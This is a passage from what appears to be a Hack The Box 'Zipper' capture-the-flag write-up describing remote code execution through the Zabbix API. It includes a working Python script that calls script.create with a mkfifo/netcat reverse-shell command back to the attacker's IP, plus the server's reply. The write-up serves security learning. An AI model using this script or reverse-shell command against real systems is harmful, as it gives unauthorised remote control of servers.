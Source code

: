There were a few parameters, including a `type` and `execute_on` variable. All of them were set to 1, which refers to the Zabbix server.

![](../../../.gitbook/assets/htb-zipper-image-5.png)

I wanted to see what happens if I created two reverse shell scripts, and have one execute on 0 and one on 1.

Based on the Script object documentation, only the `command` and `name` parameters are required. I used this python script to create the script on the machine:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = 'http://zipper.htb/zabbix/api_jsonrpc.php'

headers = {
	'Content-Type':'application/json-rpc'
}

data = {
	"jsonrpc":"2.0",
	"method":"script.create",
	"params": {
		"name":"test",
		"command":"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.4 4444 >/tmp/f",
		"execute_on":"1"
	},
	"auth":"06240f1bd5926c26e2d5ef2e8ffe214e",
	"id":"1"
}

r = requests.post(url, headers=headers, json=data, proxies=proxies, verify=False)

print(r.text)
```

This printed the `scriptid` parameter:

```
$ python3 rce.py
{"jsonrpc":"2.0","result":{"scriptids":["4"]},"id":"1"}
```
